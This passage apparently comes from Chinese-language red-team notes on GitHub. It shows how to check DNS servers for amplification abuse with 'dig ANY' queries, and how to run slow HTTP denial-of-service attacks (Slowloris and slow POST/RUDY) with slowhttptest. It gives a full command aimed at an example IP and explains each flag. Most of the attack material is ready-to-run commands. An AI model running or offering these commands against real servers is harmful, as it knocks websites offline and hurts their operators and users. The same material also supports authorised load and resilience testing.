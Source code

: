 ```
apt-get install dnsutils
# 安装dig命令

dig ANY qq.com @[dns的ip]
dig ANY [目标域名（外网）] @[dns的服务器地址ip]
# 利用回包判断dns服务器是否会被利用
```

![image-20220111164722176](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/image-20220111164722176.png)



#### 慢速攻击(打击网站有效果):

```
apt-get install openssl
apt-get install libssl-dev
apt-get install slowhttptest
```



**slowhttptest**软件原理：
低带宽应用层慢速DOS攻击（相对于cc慢）
擅长攻击apache tomcat...服务器

**Slowloris,slow http post**攻击
耗尽应用并发的连接池，类似于http层的**syn_flood**
http协议**默认**在服务端全部接收到请求之后才开始处理，如果客户发送的数据包慢速而且不完整，就会导致Dos

**Slowloris攻击**:完整的http结尾是\r\n\r\n，它的攻击结尾\r\n
**slow http post**攻击:http头部content-length声明长度，但是body缓慢发送

**slow http post**慢速攻击(**RUDY**):

```
slowhttptest -c 2000 -B -g -o body_states -i 110 -r 200 -s 8192 -t FAKEVERB -u http://192.168.1.214 -x 10 -p 3

# -c 并发连接数
# -H 默认攻击
# -B http的post攻击、rudy攻击
# -R 耗尽对方内存
# -X 慢速读取
# -o 把结果状态输出成一个文件
# -i 中间停留时间
# -l 持续攻击时间
# -r 每秒建立连接数
# -s 头部长度
# -t 请求方式
```